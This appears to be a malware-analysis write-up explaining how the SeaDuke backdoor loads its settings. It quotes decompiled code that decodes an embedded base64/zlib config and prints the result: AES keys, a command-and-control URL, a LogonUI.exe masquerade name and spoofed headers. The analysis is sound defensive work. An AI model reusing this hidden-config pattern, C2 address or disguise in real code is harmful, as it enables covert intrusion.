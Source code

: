 # starting up with `bot_settings`
one of the first things seaduke does is fetch bot settings:
```python
# https://github.com/pan-unit42/iocs/blob/29cfa76babf29d1eb754a1706526b5aa97d4607b/seaduke/decompiled.py#L235
bot_settings=json_loads(zlib_decompress(base64_b64decode('eJx1kF1PwjAUhv/K0iuNpiUMg8Fw4QSTAfFrQQ3GNN12Nua2dpyWj0n877ZAvPOqzTnP+77nnD3JCtSG41ryFCrRkoHXufRICa223z0R4F4yDb/i7wVb7NLx1XTUfVf6fRXG4xTvdq1fr0ZRNHub9IP70ldDYvVWxouNUyYVzKdhcVHfvkbTWbf/2Juw+fNwSH4ctjaqUiLlGowpZH7MhB1wKWpw8pnKlZyH1NYOvk3zX8uODwa4yAygbWei0uAylsrupxMsGuPsP8jSmGbAWK1kYRRS3UqaSIZa02bZkE8rQcgADy4HWFt6u93STCQQK1XSRNXMRa41IBc5SOPQqDAQCGQ+9em1dxZYshZYehHgBvDGO+Vqi8UCqcKcnZPjrXmROoenXvCweOm4IkgRV3ab04H+FvoFdgWNdw==')))

bot_settings['bot_id']= id_generator(size=4)+ '-' + bot_settings['key_id']  # generate random id for thsi bot
```
[base64 decoding](https://stackabuse.com/encoding-and-decoding-base64-strings-in-python/) is required to convert base64 encoding into a python string, which will then be decompressed by [`zlib`](https://stackabuse.com/python-zlib-library-tutorial/). 

## so what is `bot_settings`?
after unzipping, we see `bot_settings` is a dict:
```python
{'first_run_delay': 0,
'keys': {'aes': 'KIjbzZ/ZxdE5KD2XosXqIbEdrCxy3mqDSSLWJ7BFk3o=', 'aes_iv': 'cleUKIi+mAVSKL27O4J/UQ=='},
'autoload_settings': {'exe_name': 'LogonUI.exe', 'app_name': 'LogonUI.exe', 'delete_after': False},
'host_scripts': ['http://monitor.syn.cn/rss.php'],
'referer': 'https://www.facebook.com/',
'user_agent': 'SiteBar/3.3.8 (Bookmark Server; http://sitebar.org/)',
'key_id': 'P4BNZR0',
'enable_autoload': False}
```
this dict tells the bot a number of important things such as `host_scripts`.